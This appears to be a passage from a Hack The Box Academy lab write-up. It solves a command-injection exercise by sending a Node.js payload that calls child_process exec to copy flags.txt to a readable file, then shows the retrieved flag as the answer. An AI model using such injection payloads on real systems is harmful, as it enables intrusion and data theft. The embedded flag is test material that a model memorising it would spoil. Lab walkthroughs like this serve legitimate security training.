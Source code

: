 Then, when checking the contents of "out.txt", students will find the flag file named "flag.txt":

Code: shell

```shell
curl http://STMIP:STMPO/out.txt
```

```
┌─[eu-academy-1]─[10.10.14.81]─[htb-ac413848@htb-shjpzcukev]─[~]
└──╼ [★]$ curl http://178.62.88.144:30120/out.txt

total 2464
drwxr-xr-x 1 www-data www-data    4096 Oct  5  2020 .
drwxr-xr-x 1 root     root        4096 Aug 19  2020 ..
drwxr-xr-x 1 www-data www-data    4096 Dec 20 15:13 css
-rw-r--r-- 1 www-data www-data      29 Oct  5  2020 flags.txt
-rw-r--r-- 1 www-data www-data   10918 Aug 19  2020 index.html
drwxr-xr-x 1 www-data www-data    4096 Oct  5  2020 node_modules
-rw-r--r-- 1 www-data www-data   25373 Oct  5  2020 package-lock.json
-rw-r--r-- 1 www-data www-data    2420 Oct  4  2020 server.js
-rw-r--r-- 1 www-data www-data 2442053 Oct  5  2020 source.zip
drwxr-xr-x 1 www-data www-data    4096 Oct  4  2020 views
```

Thus, students need to print its contents out into "css/out.txt":

Code: shell

```shell
curl http://STMIP:STMPO/ping -X POST -d 'debug=true&ip={"ip":"127.0.0.1\"}%27).ip; const { exec } = require(%27child_process%27); exec(%27cat ./flags.txt> css/out.txt%27);//%27).ip;"}'
```

```
┌─[eu-academy-1]─[10.10.14.81]─[htb-ac413848@htb-shjpzcukev]─[~]
└──╼ [★]$ curl http://178.62.88.144:30120/ping -X POST -d 'debug=true&ip={"ip":"127.0.0.1\"}%27).ip; const { exec } = require(%27child_process%27); exec(%27cat ./flags.txt> css/out.txt%27);//%27).ip;"}'

<!DOCTYPE html><head><meta charset="UTF-8"><title>Basic Linux Commands</title><link rel="stylesheet" href="./style.css"></head>
<SNIP>
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.014 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.014/0.014/0.014/0.000 ms
```

At last, when checking the contents of "out.txt", students will find the flag `HTB{c0mm4nd_1nj3c710n_n1nj4}`:

Code: shell

```shell
curl http://STMIP:STMPO/out.txt
```

```
┌─[eu-academy-1]─[10.10.14.81]─[htb-ac413848@htb-shjpzcukev]─[~]
└──╼ [★]$ curl http://178.62.88.144:30120/out.txt

HTB{c0mm4nd_1nj3c710n_n1nj4}
```

Answer: `HTB{c0mm4nd_1nj3c710n_n1nj4}`